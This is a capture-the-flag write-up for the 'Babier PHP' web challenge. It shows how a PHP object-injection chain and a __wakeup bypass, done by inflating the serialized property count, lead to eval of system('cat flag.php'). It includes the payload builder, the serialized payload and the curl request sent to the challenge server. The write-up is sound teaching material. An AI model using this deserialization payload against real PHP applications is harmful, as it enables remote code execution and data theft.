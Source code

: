 # Babier PHP

<details><summary><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- Solved by: @siunam
- 4 solves / 894 points
- Author: @ppcc
- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆☆

## Background

Just some simpler PHP deserialization.

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKUST-Firebird-CTF-Competition-2025/images/Pasted%20image%2020250113173445.png)

## Enumeration

Same as the last part, Baby PHP. Highly recommend you to read the [last part's writeup]() if you haven't done so.

This time, other classes except `A` are different. Let's take a look at the modified class `B`:

```php
class B
{
    public $command;
    public $guess;
    public $random_number;
    public function __wakeup()
    {
        $this->command = "echo 'flag';";
    }

    public function __call($method, $args)
    {
        // You will get it eventually after the competition. 
        for ($i = 0; $i < 10000; $i++) {
            $this->guess = random_int(0, getrandmax());
            if ($this->guess !== $this->random_number) {
                // echo "Incorrect guess: " . $this->guess . "<br>"; // Also no more leaked random number
                return;
            }
        }
        eval($this->command);
    }
}
```

In magic method `__call`, although the for loop check is a little bit different, the **bypass method is exactly the same**.

However, magic method [`__wakeup`](https://www.php.net/manual/en/language.oop5.magic.php) is causing us some troubles. According to its documentation, it said:

> Conversely, [unserialize()](https://www.php.net/manual/en/function.unserialize.php) checks for the presence of a function with the magic name [\_\_wakeup()](https://www.php.net/manual/en/language.oop5.magic.php#object.wakeup). If present, this function can reconstruct any resources that the object may have.

So, when `unserialize` is called, it'll also execute magic method `__wakeup` and reconstruct the object instance. In our case, our **`command` property will get overwritten by the `__wakeup` magic method**.

If we Google "PHP `__wakeup` bypass", we should see [this blog post](https://fushuling.com/index.php/2023/03/11/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%ADwakeup%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/):

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKUST-Firebird-CTF-Competition-2025/images/Pasted%20image%2020250113174347.png)

Turns out, if the serilized object string's property number is greater than the correct one, magic method `__wakeup` will not be invoked.

> Note: Feel free to read [this PoC](https://github.com/Xp4int3r/POC/blob/master/CVE-2016-7124.md) for more information.

## Exploitation

To bypass magic method `__wakeup`, we need to first get our normal serialized payload:

<details><summary><strong>payload.php</strong></summary>

```php
<?php
include_once "index.php";

$a = new A();
$a->class = new B();
$a->class->command = "system('cat flag.php');";
$a->class->guess = 1;
$a->class->random_number = &$a->class->guess;

$serialized = serialize($a);
echo $serialized;
```

</details>

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Babier-PHP)-[2025.01.13|17:53:15(HKT)]
└> php payload.php 
O:1:"A":1:{s:5:"class";O:1:"B":3:{s:7:"command";s:23:"system('cat flag.php');";s:5:"guess";i:1;s:13:"random_number";R:4;}}
[...]
```

Then, we modify `"A":1`'s `1` to be greater than `1`:

```php
O:1:"A":1337:{s:5:"class";O:1:"B":3:{s:7:"command";s:23:"system('cat flag.php');";s:5:"guess";i:1;s:13:"random_number";R:4;}}
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Babier-PHP)-[2025.01.13|17:54:46(HKT)]
└> curl --get http://phoenix-chal.firebird.sh:36011/ --data-urlencode "payload=O:1:\"A\":2:{s:5:\"class\";O:1:\"B\":3:{s:7:\"command\";s:23:\"system('cat flag.php');\";s:5:\"guess\";i:1;s:13:\"random_number\";R:4;}}"
<?php
$flag = "firebird{This_is_an_intended_behavior..._Consider_reading_the_official_guideline}";
echo "flag{You_win_This_is_the_flag}";
?>
```

- **Flag: `firebird{This_is_an_intended_behavior..._Consider_reading_the_official_guideline}`**

## Conclusion

What we've learned:

1. PHP insecure deserialization & `__wakeup` magic method bypass